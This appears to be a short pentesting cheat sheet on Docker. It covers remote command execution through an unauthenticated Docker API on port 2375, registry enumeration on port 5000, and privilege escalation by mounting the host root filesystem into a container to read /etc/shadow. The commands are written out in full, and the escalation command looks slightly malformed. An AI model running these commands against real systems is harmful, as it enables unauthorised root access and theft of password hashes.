 ```yaml
---
title: "Docker"
description: "Docker commands"
date: 22/09/2020
categories:
 - misc
tags:
 - docker
 - API
---
```



## Docker API

The docker API expose the port `2375`. This API can be used to interact with the docker engine which basically give ou the right to do anything you desire unauthenticated.

To confirm that the host is running Docker you can make a GET requests to `/version` :

```http
http://<host>:<port>/version

{"Platform": {"Name": ""}, "Components": [{"Name": "Engine", "Version": "18.06.1-ce", "Details": {"ApiVersion": "1.38", "Arch": "amd64", "BuildTime": "2018-10-26T23:39:57.000000000+00:00", "Experimental": "false", "GitCommit": "e68fc7a/18.06.1-ce", "GoVersion": "go1.10.3", "KernelVersion": "4.14.47-64.38.amzn2.x86_64", "MinAPIVersion": "1.12", "Os": "linux"}}], "Version": "18.06.1-ce", "ApiVersion": "1.38", "MinAPIVersion": "1.12", "GitCommit": "e68fc7a/18.06.1-ce", "GoVersion": "go1.10.3", "Os": "linux", "Arch": "amd64", "KernelVersion": "4.14.47-64.38.amzn2.x86_64", "BuildTime": "2018-10-26T23:39:57.000000000+00:00"}
```

Then, using the CLI you can execute commands, for instance:
```bash
$ docker -H <host>:<port> ps

CONTAINER ID        IMAGE               COMMAND             CREATED             STATUS              PORTS               NAMES
be2dd8aa8222        ubuntu:14.04        "bash"              5 years ago         Up 2 seconds                            silly_elion

$ docker -H <host>:<port> exec -it <container_name> /bin/bash
root@abc:/# whoami
root
```


## Registry server

The registry server is deployed on port `5000`. Go to `/v2/_catalog` on your browser to
check if this is a registry server.

```http
http://<host>:5000/v2/_catalog
```

The server responds with the list of repositories:

```json
{"repositories":["repostitory-1"]}
```

You can configure your docker client to connect to this server.

```bash
sudo docker login <host>:5000
```

If there is a custom certificate, then add an exception in `/etc/docker/daemon.json` with:

```json
{
    "insecure-registries":[ "<host>:5000"]
}
```


## Privilege Escalation

If the current user belong to the `docker` group then he can start a container
with a binding to files own by root and read them:

```bash
docker run --it --rm -v /:/mnt alpine:latest /mnt sh
```

Inside the container shell he can read all the files as root:

```bash
cat /etc/shadow
```
